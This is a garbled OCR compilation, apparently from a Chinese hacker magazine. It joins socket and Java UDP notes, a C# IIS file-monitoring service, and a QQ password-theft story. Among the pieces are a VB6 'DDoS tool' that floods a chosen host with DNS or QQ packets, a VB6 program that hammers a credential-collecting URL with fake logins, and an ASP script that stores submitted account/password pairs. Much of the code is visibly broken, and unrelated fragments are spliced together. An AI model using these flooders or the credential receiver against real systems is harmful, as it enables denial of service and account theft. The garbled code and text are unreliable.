- Socket函数：用来创建接口描述符，格式为 `int Socket(int domain, int type, int protocol)`。参数`domain`说明网络程序采用的协议，如`AF_INET`(IPV4)、`AF_INET6`(IPV6)，`type`指定接口类型。

- Bind函数：绑定到本地计算机某一端口，格式为 `int Bind(int sockfd, struct sockaddr *my_addr, int addrlen)`。`sockfd`为套字符；`my_addr`指向`sockaddr`结构，包含了端口号。

- Sendto函数：将应用缓冲区中的数据发送到指定的地址，格式为 `int Sendto(int sockfd, const void *msg, int len, unsigned int flags, struct sockaddr *to)`。参数`sockfd`指定套字符，`msg`是发送的数据缓冲区，`to`指向目的地址和端口号，`len`是长度。若`Sendto`发送成功，则返回数据的长度，否则返回1。

- Recvfrom函数：从套字缓冲区中接收数据，格式为 `int Recvfrom(int sockfd, void *buf, int len, unsigned int flags, struct sockaddr *addr)`。参数`sockfd`指明读取套字，`buf`指明接收缓冲区，`len`表示缓冲区的大小，`addr`用于源地址和端口号。

## 用Java编写的客户/服务器应用程序

网络应用程序的核心由一对程序组成：一个客户程序和一个服务器程序。当这两个程序执行的时候，系统会创建一个客户端和一个服务器端进程，这两个进程通过Socket的读写来互相通信。

客户端代码如下：

```java
import java.io.*;
import java.net.*;
class UDPClient {
    public static void main(String args[]) throws Exception {
        BufferedReader inFromUser = new BufferedReader(new InputStreamReader(System.in));
        DatagramSocket clientSocket = new DatagramSocket();
        InetAddress IPAddress = InetAddress.getByName("hostname");
        //hostname为服务器的主机名。通过getByName将主机名解析为IP地址，并将得到的IP地址放入到IPAddress对象中
        byte[] sendData = new byte[1024];
        byte[] receiveData = new byte[1024];
        //定义两个字节数组,分别用来客户端发送和接收的数据
        String sentence = inFromUser.readLine();
        byte[] sendData = sentence.getBytes();
        DatagramPacket sendPacket = new DatagramPacket(send,sendData.length,IPAddress,1234);
        //构造分组sendPacket,客户端将借助它的套字把该分组送入网络。该分组包括了sendData中所包含的数据、数据的长度、服务器的IP地址和应用程序的端口号(假定端口号为1234)
        clientSocket.send(sendPacket);
        //取得刚刚构造的分组，并通过clientSocket将它送入网络中。在发送分组之后，客户端就等待接收从服务器到来的分组
        DatagramPacket receivePacket = new DatagramPacket(receiveData,receiveData.length);
        //等待服务器发回分组的同时,客户端为该分组创建一个占位符receivePacket
        clientSocket.receive(receivePacket);
        //客户端保持空闲,直到接收到分组为止，当它接收到分组时,它将数据从receivePacket中取出,将字节数组转换成字符串
        String modifiedSentence = new String(receivePacket.getData());
        //在客户端的显示器上打印结果
        System.out.println("Data From Server:" + modifiedSentence);
        clientSocket.close();
    }
}
```

服务器端代码如下：

```java
import java.io.*;
import java.net.*;
class UDPServer {
    public static void main(String args[]) throws Exception {
        DatagramSocket serverSocket = new DatagramSocket(1234);
```

（此处省略后续代码，根据OCR判断不完整）

```java
//在端口1234上构造了DatagramSocket类型的套接serverSocket, 所有发送和接收的数据都将通过该套接进行传送
byte[] receiveData = new byte[1024];
byte[] sendData = new byte[1024];
while(true)
{
    DatagramPacket receivePacket = new DatagramPacket(receiveData, receiveData.length);
    serverSocket.receive(receivePacket);
    String sentence = new String(receivePacket.getData());
    //从客户端传递过来的分组中把数据抽取出来, 并将其放入sentence中
    InetAddress IPAddress = receivePacket.getAddress();
    ///从客户端传递过来的分组中把IP地址抽取出来
    int port = receivePacket.getPort();
    //从客户端传递过来的分组中把客户端端口抽取出来
    String newSentence = sentence.toUpperCase();
    sendData = newSentence.getBytes();
    DatagramPacket sendPacket = new DatagramPacket(sendData, sendData.length, IPAddress, port);
    serverSocket.send(sendPacket);
}
```

将以上两个程序在各自的主机上分别安装并编译，基于UDP的基本原理，执行客户端的时候，客户进程不会发起与服务器的连接，因而可以首先执行客户端，然后再执行服务器端。一旦执行了客户和服务器程序，客户端的用户可以使用该应用程序来向服务器发送一行，并接收该行转换成大写之后的字符串。

## 结束语

Java是与平台无关的, 且编写的程序非常简洁, 因而用Java进行客户/服务器编程越来越流行。以上介绍了Socket的编程机制及在Linux系统下的接口程序, 能够深入理解Socket机制和UDP工作模式, 但怎样改进UDP中数据传送的可靠性仍是众多研究人员关注的方向。

适合读者: C# 程序员, 网络工程师

前置知识: C# 基础

# C# 打造 IIS 守门员

文/图 华农 woof4652

最近养成每天在新版黑防网站上看黑客新闻的习惯。“国内十大站点被黑, Discuz!开源惹的祸”就是第一时间发布的安全新闻。现在脚本漏洞已经成为了网站安全的致命伤。对于管理员来说该怎么做呢?依靠IIS日志显然是不够的, 我们要有自己的日志记录工具。这就是本文介绍的, 用C# 开发的自己的IIS监视软件。

连续监视的最好方法当然是使用Windows服务, 所以我们需要编写一个服务程序, 它能很好地记录下来发生的相关文件。

写服务程序与写一个.NET应用程序相似。在VS.NET中开始一个新的服务应用程序, 将其命名为`woof4652`。VS.NET会自动创建`service1.cs`的类文件, 该文件由`ServiceProcess.ServiceBase`派生而来, 其中包括两个事件——`OnStart`和`OnStop`。我们首先要把`service1.cs`重命名为`IISGuard`, 因为当服务生成时会以类名字作为服务名。VS.NET中生成服务非常简单, 只需重载几个虚函数即可。其中两个以前黑防已经介绍过, 还有两个为`OnPause`和`OnContinue`, 分别代表着服务的启动、停止、暂停与继续。（注：原文`OnEnd`应为`OnStop`，`OnEnd`应为`OnPaused`，此处根据语境修正为逻辑上的`OnStart`/`OnStop`/`OnPause`/`OnContinue`）。

说完了.NET服务的生成, 接下来是我们的主角——`FileSystemWatcher`类。利用它可以监视不同类型的变化,包括删除、对现有文件的修改、属性的修改、文件和目录的修改、文件日期的变更、文件大小的改变以及文件和文件夹的改变。`FileSystemInfo`非常灵活, 表1和表2分别列出了它的主要属性和事件。

| 属性 | 描述 |
| ---- | ---- |
| `EnableRaisingEvents` | 获取或设置一个值, 该值指示是否启用此组件。 |
| `Filter` | 获取或设置筛选字符串, 用于确定在目录中监视哪些文件 |
| `IncludeSubdirectories` | 获取或设置一个值, 该值指示是否监视指定路径中的子目录 |
| `NotifyFilter` | 获取或设置要监视的更改类型, |
| `Path` | 获取或设置要监视的目录的路径 |

表1 `FileSystemWatcher` 的属性

| 事件 | 描述 |
| ---- | ---- |
| `Changed` | 当更改指定 `Path` 中的文件和目录时发生。 |
| `Deleted` | 删除指定 `Path` 中的文件或目录时发生。 |
| `Created` | 当在指定 `Path` 中创建文件和目录时发生。 |
| `Renamed` | 重命名指定 `Path` 中的文件或目录时发生。 |

表2 `FileSystemWatcher` 的事件


```java
private string iisPath=@"D:\Inetpub\wwwroot";
private string logFile=@"C:\logFile.log";
```

然后我们要在构造函数中加入初始化的`FileSystemWatcher`代码：

```java
public IISGuard()
{
    // 该调用是 Windows.Forms 组件设计器所必需的。
    InitializeComponent();
    this.fileSystemWatcher=new FileSystemWatcher();
    this.fileSystemWatcher.Path=iisPath;
    this.fileSystemWatcher.Filter="*.*";
    this.fileSystemWatcher.IncludeSubdirectories=true;
    this.fileSystemWatcher.Changed += new FileSystemEventHandler(fileSystemWatcher_Changed);
    this.fileSystemWatcher.Created += new FileSystemEventHandler(fileSystemWatcher_Created);
    this.fileSystemWatcher.Deleted += new FileSystemEventHandler(fileSystemWatcher_Deleted);
    this.fileSystemWatcher.Renamed += new RenamedEventHandler(fileSystemWatcher_Renamed);
    this.fileSystemWatcher.NotifyFilter=System.IO.NotifyFilters.DirectoryName|System.IO.NotifyFilters.FileName|System.IO.NotifyFilters.LastWrite|System.IO.NotifyFilters.LastAccess|System.IO.NotifyFilters.CreationTime;
}
```

大家可以看到，我们用它来监视`iisPath`下面所有的文件和文件夹的更改，我们订阅的`Changed`事件会监视目录中文件或目录的大小、系统属性、上次写入时间、上次访问时间或安全权限更改时，`Created`会在创建文件及文件夹时发生，`Renamed`会在重命名文件或文件夹时发生。

接下来就是我们的`fileSystemWatcher_Changed`函数了，它会在事件发生时写入我们的日志文件。

```java
private void fileSystemWatcher_Changed(object sender, FileSystemEventArgs e)
{
    this.streamWriter=File.AppendText(logFile);
    this.streamWriter.WriteLine(e.ChangeType.ToString()+":"+e.FullPath);
    this.streamWriter.Close();
}
```

后面的三个事件处理大致相同，大家可以自己看源代码。我们还有一件事情需要完成，就是将我们的`FileSystemWatcher`与`Service`结合起来。

首先我们需要在`OnStart`中启动我们的`FileSystemWatcher`实例：

```csharp
protected override void OnStart(string[] args)
{
    if(!File.Exists(logFile))
    {
        this.streamWriter=File.Create(logFile);
        this.streamWriter.Close();
    }
    this.streamWriter=File.AppendText(logFile);
    this.streamWriter.WriteLine("Start at "+DateTime.Now.ToString());
    this.streamWriter.Close();
    fileSystemWatcher.EnableRaisingEvents=true;
}
```

首先检查日志文件是否存在，不存在就创建它。其余的可以看源代码，基本上如此，大家一看便明白。最后一点我要的是服务的注册和运行：

1. 选择`IISGuard`类，到设计模式。
2. 在属性下面单击安装程序。会自动添加两个组件：`ServiceProcess`和`ServiceInstaller`。
3. 选择`serviceInstaller`项，更改其属性`StartType`为`Automatic`，即要自启动。
4. 点击`serviceProcess`组件，将`Account`改为`LocalHost`，在本机运行。
5. 编译便生成`exe`文件。
6. 用`InstallUtil`工具来注册服务：`C:\Windows\Microsoft.NET\Framework\v1.0\InstallUtil.exe woof4652.exe`
7. 注册成功后，在服务里面开启就可以工作了，一张记录所示。

# 局域网拒绝攻击

现在许多局域内的机器都设置了固定IP，这样很容易被内部或外部发起攻击。因此我们需要将局域内的计算机名改成一个假的IP，以此欺骗初级黑客。具体方法如下：Windows XP下，用鼠标击“电脑”，选择“属性”，在弹出的“系统属性”窗口中选择“计算机名”标签页，在该标签页中将“描述”后的文本框内容改为一个IP，最后点击“应用”。

# DDoS工具

对DNS已经熟悉了吧？不错，就是解析服务器端口53，用来解析域名的！把地址发到服务器，服务器解析出来的结果返回给IE，其中一个DNS请求包和DNS答包。

我们要做的就是模拟DNS请求，大量的发送进行压力测试！DNS包是一种格式，有很多方式可以获取：

1. 根据自己生成包。
2. 抓取数据包，在程序中转换成数组。采用这种方式更方便！了解更多可以访问 http://www.paf.net/。

程序界面如下，由于是用VB6，用了以下控件：

- `Command`：功能为命令按钮
- `DnsSend`：功能为发送包
- `Winsock`：功能为网络控件
- `Label1`：`Caption`为（空），`BackColor`为`H00008FF`（橙黄），`Top=0, Left=0`
- `Timer1`：`Interval=500, Enabled=false`，名称为`KingSend`，`Protocol`为1

**相关代码：**

```vb
Dim K() As Byte '发送数据缓冲区
Dim bRun As Boolean '启动运行的标志
Dim Dip As String '保存IP
Dim Dnum As String '保存攻击次数
Dim Dport As Long '保存端口
Dim dP As Integer '保存数据包格式
Private Declare Function GetTickCount Lib "kernel32" As Long

Public Sub StartDNS(ByVal IP As String, ByVal Num As Double, ByVal Dan As Integer)
    ' 将传来的参数保存在变量中，以备调用！
    Dip = "192.168." + IP
    Dport = Port
    Dnum = Num
    DRun = True
    pY = Dan
    Timer1.Enabled = True '由Timer控件来启动发包，使得方法马上返回，不会造成主程序响应！
End Sub

Public Sub StopDNS()
    DRun = False '中断发包
End Sub

Private Sub Timer1_Timer()
    On Error Resume Next
    Timer1.Enabled = False 'Timer的使命已经完成，停止它
    If DRun = True Then
        ReDim K(63) As Byte '开辟数据缓冲区！
        Select Case pY
            Case Is = 1
                X = "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" '这是全套的数据包！
            Case Is = 2
                X = "46 EA 01 00 00 01 00 00 00 00 00 00 03 77 77 77 04 73 6F 68 75 03 63 6F 6D 00 00 01 00 01" '这是DNS数据包
            Case Is = 3
                X = "02 0E 13 00 02 4F 1E 00 0C 19 62 DD 72 66 DD C7 2A 1D A1 B3 DB 26 5E 40 B6 AF 69 03" '这是QQ数据包
        End Select
        ' 用循环将字符串转换成数组！
        For i = 1 To Len(X) Step 3
            K(i \ 3) = Val("&H" & Mid(X, i, 2))
        Next i
        ' 根据StartDNS传进来的IP，端口对Sock的控件进行赋值！
        KingSend.Remote = Dip
        KingSend.Port = Dport
        ' 循环
        For i = 1 To Dnum
            ' 检查次数
            If i Mod 1000 = 0 Then
                Label1.Caption = GetTickCount() '显示消耗时间
            End If
            ' 发送
            ' Send K
            DoEvents
        Next
    End If
End Sub
```

```vb
End Sub
Private Sub Label4_MouseDown(Button As Integer, Shift As Integer, X As Single, Y As Single)
' 完成对鼠标拖放的响应!
ReleaseCapture
SendMessage Me.hwnd, &HA1, 2, 0&
End Sub
Private Sub Label6_Click()
End '结束程序
End Sub
Private Sub Text1_KeyPress(KeyAscii As Integer)
' 屏蔽按键,只接受数字,“.”,退格键
If KeyAscii >= 48 And KeyAscii <= 57 Or KeyAscii = 46 Or KeyAscii = 8 Then
Else
KeyAscii = 0
End If
End Sub
Private Sub Text2_KeyPress(KeyAscii As Integer)
If KeyAscii>=48 And KeyAscii<=57 Or KeyAscii=8 Then
Else
KeyAscii = 0
End If
End Sub
Private Sub Text3_KeyPress(KeyAscii As Integer)
If KeyAscii >= 48 And KeyAscii <= 57 Or KeyAscii = 8 Then
Else
KeyAscii = 0
End If
End Sub
```


如果把控件改为`SocketAPI`，速度会成倍的提升！

编程到此结束，大家可以测试一下此工具的威力，请小心使用。

适合读者：编程爱好者

前置知识：VB语言

# 被盗号者的反击

文/图 人鱼姬

现在网络上的盗号现象比较猖獗，但是我最近所遇到的这次盗号事件却有一些传奇色彩。

话说我有个同学叫大头，平时很喜欢在QQ上聊天。这天中午大家聚在宿舍里休息，大头就向我抱怨他的电脑最近很慢，让我有空帮他看看是什么问题。这时，在一旁上网的王某突然发现大头的QQ上线了，而且使用的是外地的IP，可是马上又下线了。所以对大头说：“你上QQ为什么还用代理呀？”大头迷茫了：“我没上QQ呀？”我一想就觉得事情不对，赶紧说：“你的密码说不定被盗了。”大头赶紧用别人的笔记本登录QQ，发现可以登录。我说：“你快改密码吧，待会说不定就被人改了。”只见大头不紧不慢的打开修改密码的网页，慢悠悠地思量着改成什么密码比较好。

过了一会，当大头提交新密码时，发现已经没法改了，仅仅晚了一步。大头哭着喊着要我帮他杀木马，我只好帮他看看。打开任务管理器，发现有两个`winlogon.exe`的进程，其中一个一定是病毒了。最后终于在`Windows\system32`文件夹下发现了大小为52K但图标和文件名各不相同的木马，如图1和图2所示。

## 追查盗号者

那么这个木马是怎么工作的呢？经过思考后，我初步断定这个木马十有八九是通过网站提交密码的。于是找来一个没用的QQ号，打开`Sniffer`，想看看数据包能提供什么线索。结果却很让人失望，我并没有在大量数据包中发现有QQ号码和密码。苦苦地思索之后，我又看了大量数据，终于发现了点击登录之后，会有一个不起眼的数据包，如图3所示。

这是一段HTTP报文。首先的一个可疑之处就是数据包的目标IP是与通讯服务器毫不相干的，而我并没有开它的网络，显然这是木马发送的。从内容来看，它用`GET`方式提交的URL为`postdata.asp?FIELD=...&CRC=...&GUID=...&TAG=...`，其提交参数值显然毫无意义的乱码。这也是我第一次找到这个可疑的原因。木马把账号及密码加密之后提交给网站，黑客拿到这些密文后再还原。这样一个看上去毫不起眼的数据包就包含着秘密。

| 进程 | 大小 | 描述 | 时间 |
| --- | --- | --- | --- |
| `explorer` | 52 KB | MS-DOS 应用程序 | 2006-9-15 23:52 |
| `explorer` | 52 KB | EXE 文件 | 2006-9-15 23:52 |
| `Ender` | 52 KB | MS-DOS 应用程序 | 2006-9-15 23:52 |
| `[RANDOM]` | 52 KB | EXE 文件 | 2006-9-15 23:52 |

图 1

| 进程 | 大小 | 描述 | 时间 |
| --- | --- | --- | --- |
| `command` | 52 KB | 指向 MS-DOS 程... | 2006-9-15 23:52 |
| `dssiing` | 52 KB | MS-DOS 应用程序 | 2006-9-15 23:52 |
| `Ender` | 52 KB | MS-DOS 应用程序 | 2006-9-15 23:52 |
| `[RANDOM]` | 52 KB | EXE 文件 | 2006-9-15 23:52 |

图 2

# PROGRAMMING ANALYSE


现在各大网站都没有这种提交密码先加密数据的木马下载，应该是个人的吧。把木马写成这样有两个好处：一是数据包不包含明文，隐蔽性强；二是即使别人在他的网站上拿到了密码文件、`IIS`日志或是在Web服务器上记录了数据，也没有办法还原明文。不得不承认，这种木马确实很有创意，应该是下一代盗号的发展吧？接下来我又看了一下盗号网站接收的脚本，返回提示为`continue`，不知什么意思。再查看这台服务器的其他网站，如图4所示，发现这几个网站都没有内容，连首页也没有，偶然发现这台服务器开了终端服务，还是Windows2000的操作系统呢。

## 编写反击程序

虽然木马已经被查了，但事情到这一步并没有完，促使我想了一个问题：难道盗号者永远都是被动的吗？盗号就只能认倒霉？

经过一段时间的思考后，我编写了一个被盗号者用于反击的程序，主要原理就是随机生成用户名和密码，模拟木马发送到盗号网站，让盗号者的记录里有很多垃圾信息，这样即使木马提交正确的信息，也会淹没在垃圾信息中。盗号者如果想分辨出来正确的信息，那就慢慢的一个一个试吧。实际上，我以前用批处理和VBS写过一个类似功能的脚本，看上去简陋不用说，而且一旦运行，电脑就不能做它的事了。于是这次我用VB写了一个界面美观的程序供使用。

一开始我想用VB中的`winsock`控件写，后来发现用`Internet Transfer`的`openURL`方法更省事，所以用它写出来了。关键代码如下：


```vb
Dim fal As Integer        ' 定义提交失败的次数
Dim suc As Integer        ' 定义成功的次数
Dim showurl As String    ' 定义显示的URL
Dim url As String        ' 定义提交的URL
Public Function suiji(a As String) As String
' 用于产生指定位数的随机数。为了使用方便，这里定义成了字符串型
suiji = ""
Dim i As Integer
For i = 1 To a
Randomize
' 产生随机种子
suiji = suiji & Str$(Fix(10 * Rnd))
' 将产生的单个随机数连接起来
Next
End Function
Private Sub Command1_Click()
If Command1.Caption = "攻击" Then
' 按下攻击时 在按钮上显示暂停并激活时钟
Command1.Caption = "暂停"
Command2.Enabled = False
' 在攻击的时候不允许点退出按钮
Timer1.Enabled = True
Else
Command1.Caption = "攻击"
' 按下暂停按钮时，在按钮上显示攻击并禁用时钟
Timer1.Enabled = False
Command2.Enabled = True
' 在暂停的时候允许点退出按钮
End If
End Sub
```

下面的代码大家要注意一下`url`和`showurl`的区别。由于我的设计是让界面下部的`label`（标签）里显示正在提交的URL，但是要在`label`里显示一个“`&`”，就必须使`label`的`caption`的值为“`&&`”，大家自己试一下就知道了。所以这里设了`url`和`showurl`，唯一的区别在于`url`用于提交，所以里面是单个的`&`，如`http://www.xxx.com/qq.asp?mun=1111&pass=1111`，而`showurl`里是两个`&`，如`http://www.xxx.com/qq.asp&&pass=1111`，目的是能在`label`里正确显示。

```vb
Public Sub attack()
Dim header() As String
' 定义数据头的数组
On Error GoTo err
' 考虑到连接不到服务器的情况，此时openURL出错，执行err
' 根据用户的输入生成URL
url = Text4.Text     考虑参数一
If Option1.Value = True Then
url = url & "pn"
url = url & Text1.Text
url = url & "u="
If Option3 = True Then
url = url & Text2.Text
Else
url = url & suiji(Val(Text3.Text))
End If
End If
showurl = url
If Option5.Value = True Then
' 考虑参数二
url = url & "&"
url = url & Text5.Text
url = url & "="
showurl = url
If Option9 = True Then
url = url & Text6.Text
showurl = Text6.Text
Else
a = suiji(Val(Text7.Text))
End If
End = If
If Option7.Value = True Then
' 考虑参数三
url = url & "&"
url = url & Text8.Text
url = url & "="
showurl = url
If Option11.Value = True Then
url = url & Text9.Text
showurl = Text9.Text
Else
a = suiji(Val(Text10.Text))
End If
End If
showurl = url & a
Label8.Caption = "提交URL: " & showurl
' 在Label里显示正在提交的URL
Inet1.OpenURL url
' 通过Inet1.OpenURL提交URL
header = Split(Inet1.GetHeader, vbCrLf, -1, vbTextCompare)
' 通过Inet1.GetHeader取得HTTP文头，并通过vbCrLf分割数据文头
If Left(header(0), 12) = "HTTP/1.1 200" Then
' 通过HTTP文头判断是否提交成功
suc = suc + 1
' 这是返回状态码为200的情况
Label9 = "成功" & suc & "次" & " 失败" & fal & "次"
Else
fal = fal + 1
' 这是返回状态码不为200的情况
Label9 = "成功" & suc & "次" & " 失败" & fal & "次"
End If
Exit Sub
err:
' 这是没有状态码的情况，也就是连接不到服务器
fal = fal + 1
Label9 = "成功" & suc & "次" & " 失败" & fal & "次"
End Sub
Private Sub Timer1_Timer()
' 时钟反复调用attack
attack
End Sub
```

我到网上下载了各种盗号工具,发现绝大多数脚本接收的都是2个参数,如`num`和`pass`,但是也有接收3个参数的,所以我就设计了2个参数,最后一个不用可以禁用掉。另外,程序界面的下面会显示正在提交的URL,还会显示成功和失败的次数。以后大家遇到盗号的木马,就先`sniffer`抓它的HTTP数据文看看,搞清楚它的URL以及参数名之后就可以动手了。

好了,下面该测试一下了,打开我的电脑上的IIS,用我的程序攻击,如图5所示。用不了多长时间,就提交上千次了。打开网站目录,记录文件已经有20K了,如图6所示。再看看我的程序占用资源,大约占了10M内存,如图7所示。





# 编程解析 PROGRAMMING ANALYSE

栏目编辑 / socket) socket@hacker.com.cn

下面是我用来接收密码的ASP脚本,其代码如下：

```asp

<%
num=request("num")
pass=request("pass")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("qq.txt"),8,True)
file.writeline num+"---"+pass
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>

```

后来我发现,程序在没有注册`msinet.ocx`控件的机器上运行时会报错,因为程序要调用`msinet.ocx`,此时只要把`msinet.ocx`放到程序的同一目录下,程序就能正常工作了。最后希望大家能触类类比。

# PROGRAMMING ANALYSE 编程解析

} 栏目编辑 ) socket } socket@hacker.com.cn.






后，必须点击该对话框右上角的“设置”按钮用来通知程序编译新的过滤器，如果只是希望清除旧的过滤器设置，单击“清空”按钮即可。

## 程序体系结构

下面介绍编写方法了。其实编写一个程序，最重要的是前期对程序结构的规划。记住一点，对困难问题很难一次解决。就采用分而治之的办法，分层解决，所以，只要前期进行了详尽的设计和系统的规划，编码算不了什么的。下面我来介绍一下本程序的体系结构，该程序的主体由用户界面模块，数据传输模块和数据包捕获模块三个模块构成。用户界面是一个单文档多视图结构的MFC向导生成程序，由于MFC体系结构内容复杂，故介绍流程的过程中有关MFC类构造，析构，处理消息的略过或简单介绍，如图7所示。



在重组数据包的时候没有考虑TCP出错重传的情况，搜索深度也较浅，所以，对某些拓扑距离过远的网站传送的文件解析效果不是很好。

在树形区中点击节点，在内存显示区中也会显示相应的内存数据，为了编写方便，我只处理了根节点下第一层子节点的操作，其余节点点击无效。下面介绍过滤器的设置，过滤器设置界面如图5所示。

